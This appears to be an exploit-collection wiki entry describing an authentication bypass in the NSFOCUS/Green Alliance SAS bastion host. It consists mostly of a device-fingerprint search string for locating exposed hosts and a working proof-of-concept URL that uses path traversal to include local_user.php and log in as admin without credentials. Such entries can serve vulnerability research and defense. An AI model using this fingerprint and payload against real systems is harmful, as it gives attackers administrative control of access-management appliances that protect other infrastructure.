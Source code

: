 # Green Alliance SAS Fortress local_user.php Any user login vulnerability

## Vulnerability Description

Green Alliance Fortress has a vulnerability to log in any user. The attacker uses the vulnerability to include www/local_user.php to realize any user login.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Green League SAS Fortress</span>

## Network surveying and mapping

body="'/needUsbkey.php?username='"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810132919858.png)

Verify POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42-20230810132919979.png)